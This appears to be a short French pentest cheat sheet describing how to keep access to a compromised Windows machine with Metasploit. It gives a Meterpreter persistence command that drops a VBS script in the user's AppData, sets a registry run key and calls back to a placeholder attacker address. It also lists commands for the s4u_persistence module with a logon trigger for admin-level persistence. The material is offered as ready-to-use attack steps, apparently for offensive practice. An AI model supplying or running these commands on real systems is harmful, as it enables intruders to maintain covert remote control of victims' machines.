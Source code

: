 **All Level Persistence**
Elle consiste a utiliser la persistance inclure dans metasploit qui va installer un script VBS dans le AppData de l'utilisateur et crée une clé de registre pour que ce dernier soit exécuter au démarrage de sa session.

```sh
run persistence -X -i 10 -r @ATTACKER_IP -p PORT
```

---

**Admin Level Persistence**
On peut aussi utiliser une persistance de metasploit

```sh
use exploit/windows/local/s4u_persistence
set SESSIONS [ID]
set trigger logon

# Modifier le port du listenner donner le nouveau fournir par le module
```

